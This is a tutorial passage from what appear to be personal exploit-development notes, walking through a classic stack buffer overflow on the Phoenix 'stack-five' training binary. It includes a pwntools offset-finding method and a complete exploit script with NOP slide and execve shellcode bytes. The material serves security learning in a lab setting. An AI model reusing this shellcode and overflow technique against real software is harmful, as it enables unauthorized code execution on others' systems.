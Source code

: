 # Stack Smashing

## Basic stack overflow with executable stack, no protections

### Overview

![Phoenix stack 5 example](https://lh6.googleusercontent.com/Z7A-yxH5Ws3mnjYADuOI8JKYgkf-yk\_kt9BukMwhIo52T8iDWhLpFCB5EAKFUcW0VSKezL7GZ-ASFCR\_L5a3BpfIy2aFiH0O6PppkIY6RgKo4pmBXl6wFaKl2opXDdV7AlrU\_v-HLr-6fKStVn\_mDg)



What you need to do:

1. Find the address of the buffer on the stack
2. Find the address of the EIP on the stack, that was pushed for the RET instruction
3. Subtract #1 from #2. That’s how much padding space you have
4. Fill the padding space with random padding
5. After the padding space, overwrite the EIP which was saved on the stack. It should point to the NOP slide in #6. Put it in the middle of the NOP slide due to differences in the stack address space (view section “Stack address changes”)
6. After the overwritten EIP, put a NOP slide. You can be generous with this, like 128 bytes for example. But making it ridiculously large may break the program.
7. After the NOP slide, put your shellcode

_Note: You can also put the shellcode inside the buffer, but the above method is better, since then you won't be limited by the buffer size._

### **Finding out how many bytes the overflow needs to be**

You need to know how many bytes you need to overflow to get to the saved return pointer. You can use the cyclic generator from pwntools to easily identify it.

You can generate the overflow like this (in ascii in this case, but you can also leave them as bytes for exploitation):

```
import pwn

number_of_bytes = 500
generator = pwn.util.cyclic.cyclic_gen()
overflow = generator.get(number_of_bytes).decode('ascii')
```

Alternatively, you can use the [pwntools command-line program](https://docs.pwntools.com/en/stable/commandline.html):

```
pwn cyclic 500
```

Use the generated overflow to cause a segfault in the application. Then look at dmesg:

```
sudo dmesg
[14515.106389] target[9460]: segfault at 61616b62 ip 0000000061616b62 sp 00000000ff9cd5f0 error 14
```

You can see that the instruction pointer was 61616b62, which corresponds to the ascii text 'aakb'. Also, it's in little endian, so it corresponds to 'bkaa' in the cyclic generator's output.&#x20;

Echo out the overflow ascii and find out where the 'bkaa' string occurs in the cyclic output. That's the place where you need to put the address you want to overflow the saved return pointer with. The amount of bytes up until that string is the amount of bytes you need to get to the return pointer on the stack from the initial overflow location.

### **Exploitation**

Here’s the script I used to generate the input file for the phoenix stack5 challenge:

```
from __future__ import print_function

override_length = 136

padding = 'A' * override_length
return_address = "\x00\x00\x7f\xff\xff\xff\xe5\x40"[::-1]
nop_slide = "\x90" * 128
shell_code = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"

payload = padding + return_address + nop_slide + shell_code

with open('/home/user/input.txt', 'w') as f:
            print(payload, file=f)

```

Remember to cat the input in like this:

```
(cat ~/input.txt; cat) | /opt/phoenix/amd64/stack-five
```

_Note: In hindsight, it would be better and easier to do this with **pwntools**._

### **Note about stack address changes**&#x20;

_Note: This is not a real issue when you get to more advanced exploitation methods, because you don't ever provide absolute stack addresses anyways due to ASLR._

When you use a debugger like GDB or radare2, then that debugger will put environment variables on the stack. This will make the address space move around, and when running the program normally, the absolute addresses you found in your debugger will no longer be entirely correct.&#x20;

Also, argv will be smaller if you call the program with the full path instead of a relative path (‘./program’ is smaller than ‘/path/to/program’).&#x20;

Additionally, the current working directory is also on the stack, so different working directories will result in different addresses.

This is one reason why NOP slides are important. Note that the addresses relative to the base pointer should still stay the same.

So keep in mind - use a decent-sized nopslide and put the EIP/RIP into the middle of that nopslide. That way the address changes won’t mess up your exploit so easily. However, if you add too many, then the process will crash (probably because the stack runs out of space?) When I added 700 bytes of NOPs it was fine, but when I added 7000, then that was trouble.

###
